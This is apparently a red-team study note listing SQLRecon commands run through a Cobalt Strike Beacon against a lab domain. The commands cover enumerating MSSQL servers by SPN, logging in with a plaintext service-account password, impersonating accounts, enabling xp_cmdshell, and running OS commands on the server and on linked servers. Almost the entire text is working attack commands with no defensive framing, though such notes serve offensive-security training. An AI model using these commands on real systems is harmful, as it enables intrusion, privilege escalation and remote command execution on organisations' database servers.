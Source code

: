 [GitHub Link](https://github.com/skahwah/SQLRecon)


## Enumerate Servers via SPNs

---

Enumerates SQL servers by SPNs.

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
```


##  Enumerate SQL Instance

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
```

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.


## Enumerate Current Roles

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.


## Gaining Access to SQL Instance

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```


## Query SQL Database

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
```

### Query Linked Servers

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```


## Impersonate Accounts on an Instance

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

### Run Modules

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```

### xp_cmdshell Interaction

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
```

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lxpcmd /i:DEV\mssql_svc /l:sql-1.cyberbotic.io /c:ipconfig
```

## Enumerate Links for an Instance

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

## Enumerate Linked Servers for More Links

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
```

## Enumerate Linked Servers

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```